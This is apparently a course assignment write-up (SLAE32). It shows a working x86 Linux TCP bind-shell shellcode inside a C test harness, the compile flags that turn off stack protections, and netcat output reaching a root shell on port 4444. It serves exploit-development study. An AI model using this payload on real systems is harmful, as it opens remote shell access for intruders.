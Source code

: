 ### Adding the Shellcode to a Host Program
```c
// Author:   boku
// Filename: shellcode.c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89"
"\xe1\xcd\x80\x96\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xd2\x52"
"\x66\x68\x11\x5c\x66\x53\x31\xc9\x89\xe1\x6a\x10\x51\x56\x89"
"\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x31\xc9\x51\x56"
"\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51"
"\x51\x56\x89\xe1\xcd\x80\x93\x31\xc0\x31\xc9\xb1\x02\xb0\x3f"
"\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80";

main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```

### Compiling the Host Program
```console
root# gcc -fno-stack-protector -z execstack -o shellcode shellcode.c 
```

### Testing the Shellcode within by Executing the Host Program
#### Terminal Window 1
```console
root# ./shellcode 
Shellcode Length:  114
```
#### Terminal Window 2
```console
root# netstat -tnalp | grep shellcode
tcp      0      0 0.0.0.0:4444     0.0.0.0:*   LISTEN    19143/shellcode 
root# nc.traditional 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root)
```
Perfect! Our TCP-IP Bind Shell, Shellcode works as intended when injected into another program!  
The next assignment in the SLAE32 course is to create a TCP-IP Reverse Shell, Shellcode.

